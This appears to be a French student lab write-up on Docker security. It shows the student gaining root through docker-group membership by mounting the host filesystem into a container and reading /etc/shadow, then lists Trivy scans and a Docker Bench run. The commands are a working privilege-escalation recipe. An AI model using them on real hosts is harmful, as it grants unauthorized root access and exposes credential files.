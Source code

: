 🌞 Prouvez que vous pouvez devenir root

Notre utilisateur est bien dans le groupe docker :
```
❯ whoami
carambole
❯ groups
carambole adm dialout cdrom floppy sudo audio dip video plugdev users netdev bluetooth wireshark lpadmin scanner kaboxer docker
```

On peu juste monter tout le système de fichier dans le docker :
```
❯ docker run -v /:/mnt -it ubuntu
Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
5a7813e071bf: Pull complete 
Digest: sha256:72297848456d5d37d1262630108ab308d3e9ec7ed1c3286a32fe09856619a782
Status: Downloaded newer image for ubuntu:latest

root@a6eb3d85e55c:/# cat /mnt/etc/shadow
root:!:20126:0:99999:7:::
daemon:*:20126:0:99999:7:::
bin:*:20126:0:99999:7:::
sys:*:20126:0:99999:7:::
sync:*:20126:0:99999:7:::
[etc...]
```

🌞 Utilisez Trivy
- [scan wikijs](./scan_wikijs)
- [scan postgres](./scan_postgres)
- [scan nginx](./scan_nginx)

🌞 Utilisez l'outil Docker Bench for Security

Fait.
